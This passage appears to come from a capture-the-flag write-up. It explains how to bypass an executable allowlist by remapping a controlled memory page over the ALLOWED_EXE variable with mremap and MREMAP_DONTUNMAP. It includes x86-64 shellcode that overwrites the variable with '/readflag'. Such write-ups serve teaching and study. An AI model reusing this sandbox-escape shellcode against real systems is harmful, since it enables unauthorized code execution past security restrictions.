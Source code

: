 The trick here is that we can move a memory page (which we control) containing some other string to the memory page containing the ALLOWED_EXE variable. This way we can effectively control the contents of the data section. 

From the mremap manpage (https://man7.org/linux/man-pages/man2/mremap.2.html) under the MREMAP_DONTUNMAP flag description, "This flag, which must be used in conjunction with MREMAP_MAYMOVE, remaps a mapping to a new address but does not unmap the mapping at old_address." Thus our goal is to run the equivalent of:

```c
mremap(our_memory, 0x1000, 0x2000);
mremap(our_memory_page (our_memory + 0x1000), 0x1000, 0x1000, MREMAP_DONTUNMAP, page_with_allowed_exe);
```

The page_with_allowed_exe page start is 0x50 bytes before the ALLOWED_EXE var we are trying to control so we'll have to write our desired string 0x50 bytes after the start of the page we control so they align after remapping.

I first tried to do this with "/bin/sh" but unfortunately /bin/sh itself uses restricted syscalls and so executing it later would always fail. Thankfully the challenge had a provided binary at /readflag which gives us the flag without using any restricted syscalls so we just have to replace "/bin/id" with that.

The code for that looks like this.
```python
set_var = """
sub rdi, 0x4c00     <- get ELF base
add rdi, 0x2000     <- get memory page to control
mov rbx, rdi        <- save for later use
mov rdi, 0xc0de000
mov rsi, 0x1000
mov rdx, 0x2000
mov rax, 0x19
syscall             <- mremap(our_memory, 0x1000, 0x2000)

mov rsp, 0xc0de000 + 0x1000 + 0x50 + 0x10
mov rdi, 0x0000000000000067
push rdi
mov rdi, 0x616c66646165722f
push rdi            <- write "/readflag" to our memory page
mov rdi, rsp

sub rdi, 0x50
mov rdx, 0x1000
mov r10, 3          <- MREMAP_DONTUNMAP flag
mov r8, rbx
mov rax, 0x19
syscall             <- remap our controlled page to page of ALLOWED_EXE
"""

shellcode += asm(set_var)
```

Checking again to make sure it worked, we see that we've successfully overwritten ALLOWED_EXE as intended :)
